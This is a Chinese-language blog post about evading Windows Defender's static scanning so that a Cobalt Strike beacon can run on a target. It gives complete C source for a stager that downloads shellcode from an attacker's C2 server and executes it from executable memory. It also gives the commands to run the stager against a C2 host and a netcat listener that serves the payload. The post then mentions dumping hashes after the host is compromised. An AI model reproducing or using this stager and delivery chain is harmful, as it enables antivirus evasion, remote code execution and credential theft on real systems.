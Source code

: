 ```yaml
---
layout: post
title: Beacon-绕过windows defender
date: 2019-09-07 23:30:00
tags: Windows Defender
categories: hack
author: PythonPig
---
```

* content
{:toc}

### \#0x00 写在前面 
最近工作实在是太忙了，一直想找时间把这篇文章写出来，无奈工作压力太大一直没能抽出时间。今天趁这个周末的晚上把这篇文章写完吧。  
之前用CS时习惯性的用windows dll，在windows server 2008 R2上一直运行的很不错，前段时间发现目标网络内部分操作系统升级到了windows server 2016，windows defender也升级到了最新版本，可想而知，没有经过第三方处理的CS beacon payload传上去之后瞬间就被秒了~~，果断google看看有没有好的解决办法，果然搜到了不少解决办法（具体见《参考》部分），今天只研究如何绕过静态扫描，以后补充如何绕过内存扫描、流量分析、行为分析，绕过静态扫描的方法：加密、混淆、截断拼接、payload字符（敏感字符或全部字符）替换、文件不落地等等，不过人怕出名猪怕壮，很多方法已经无法绕过windows defender的检测了。  
{:refdef: style="text-align: center;"}
![windows defender](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Beacon-绕过windows%20defender/windows%20defender.jpg?raw=true)
{: refdef}
图片来源于https://tweaklibrary.com/how-banking-trojan-disables-windows-defender-on-windows-10/



### \#0x01 尝试绕过 
在测试绕过windows defender的静态扫描时，首先使用了[Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)，结果Obfuscation的部分文件直接被windows defender报毒了，关了defender继续使用Obfuscation把cs的payload进行了混淆，结果，还是绕不过defender的静态扫描；后来使用了[Veil](https://github.com/Veil-Framework/Veil)加密CS的Veil payload，结果可以绕过相当一部分杀软的静态扫描，但是还是过不了最新版的defender静态扫描。    

Obfuscation和Veil的失败充分说明了什么叫“人怕出名猪怕壮”的道理。    

竟然混淆、加密都过不了defender的静态扫描，那尝试使用“文件不落地”的方式来绕过defender。  

思路如下：  
编写一个简单的stager，这个stager仅用于申请内存、下载payload并执行，该stager本身并不包含恶意代码，因此可以绕过windows defender的静态扫描。  

##### 1、编写stager
首先编写stager用于远程下载payload并执行，这个stager是一个TCP客户端，从我们的C2服务器下载payload、申请内存、执行payload。代码如下(Visual Studio 2010编译)：  
```
#include "stdafx.h"
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#include <stdlib.h>

#pragma comment(lib, "ws2_32.lib")
#pragma comment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"" )


int main(int argc, char *argv[])
{    
	// Declare and initialize variables
	WSADATA wsaData;
	WSAStartup(MAKEWORD(2, 2), &wsaData);
   

	if (argc != 3) {
        fprintf(stderr,"usage: stager.exe hostname port\n");
        exit(0);
    }
	struct hostent *host;
    if ((host=gethostbyname(argv[1])) == NULL) {  /* get the host info */			
        puts("Get IP address error!");     
        exit(0);
    }
	
	int port = 0;
	if ((port = atoi(argv[2])) == NULL) {  /* get the port info */
        puts("Get port error!");     
        exit(0);
    }

    SOCKET sclient = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if(sclient == INVALID_SOCKET)
    {
        printf("invalid socket !");
        return 0;
    }

    sockaddr_in serAddr;
    serAddr.sin_family = AF_INET;
    serAddr.sin_port = htons(port);
	serAddr.sin_addr = *((struct in_addr *)host->h_addr);
	
    if (connect(sclient, (sockaddr *)&serAddr, sizeof(serAddr)) == SOCKET_ERROR)
    {
        printf("connect error !");
        closesocket(sclient);
        return 0;
    }  
    char recData[1024];
    int receivedBytes = recv(sclient, recData, sizeof(recData), 0);
	printf("received:%d\n",receivedBytes);
    if(receivedBytes > 0)
    {      
		LPVOID shellcode = VirtualAlloc(NULL, receivedBytes, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);	
		printf("Allocated memory for shellocode at:%p\n",shellcode);
	
		memcpy(shellcode, recData, sizeof(recData));	
		printf("Copied shellcode to:%p,Sending back meterpreter session...\n",shellcode);
		((void(*)()) shellcode)();
    }
    closesocket(sclient);
    WSACleanup();	
    return 0;
}
```
stager生成之后，上传至目标机器并执行，执行方式如：stager.exe c2_hostname port  
```
stager.exe www.xxxxxx.com 53
stager.exe 8.8.x.x 8080
```

##### 2、生成CS payload并在C2服务器启动TCP Server
使用CS生成payload  
{:refdef: style="text-align: center;"}
![生成payload](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Beacon-绕过windows%20defender/生成payload.png?raw=true)
{: refdef}   

在C2服务器上开启TCP Server，为了方便起见，直接使用netcat  
```
echo -e "\xfc\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\xxx\x00\x00\x00\x00\x00" | nc -l -p 53 -vvv
```
其中“\xfc\xxx\xxx\……\x00"为CS生成的payload。  

##### 3、目标上线
stager在目标机器上执行后，stager将在C2服务器下载payload并执行，目标上线。注意，虽然绕过了windows defender的静态扫描，但仍然需要小心defender的行为检测，比如利用beacon session进行提权、调用mimikatz时都会被defender检测到，不过dump hashes、proxy server等功能是可以正常执行的。  


### \#0x03 参考
* [渗透利器Cobalt Strike - 第2篇 APT级的全面免杀与企业纵深防御体系的对抗](https://xz.aliyun.com/t/4191#toc-5)
* [Bypassing Windows Defender: One TCP Socket Away From Meterpreter and Beacon Sessions](https://ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon#code) 
* [Cobalt Strike – Bypassing Windows Defender with Obfuscation](http://www.offensiveops.io/tools/cobalt-strike-bypassing-windows-defender-with-obfuscation/)
* [Evading Windows Defender with 1 Byte Change](https://ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change)  
* [I rolled my own crypto to work around](https://twitter.com/curi0usJack/status/1083470829290164227?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1083470829290164227&ref_url=https%3A%2F%2Ftwitter.com%2Fcuri0usJack%2Fstatus%2F1083470829290164227) 
